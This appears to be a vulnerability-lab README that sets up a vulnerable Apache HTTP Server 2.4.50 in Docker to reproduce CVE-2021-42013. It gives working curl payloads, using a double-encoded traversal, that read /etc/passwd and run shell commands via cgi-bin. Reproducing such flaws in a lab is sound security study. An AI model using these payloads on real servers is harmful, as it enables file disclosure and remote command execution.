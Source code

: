 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

CVE-2021-42013 is a vulnerability that caused by incomplete fix of [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773), an attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

This vulnerability affects Apache HTTP Server 2.4.49 and 2.4.50 and not earlier versions.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker compose build
docker compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

Apache HTTP Server 2.4.50 patched the previous CVE-2021-41773 payload such as `http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`, but it was incomplete.

Use `.%%32%65` to bypass the patches (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)
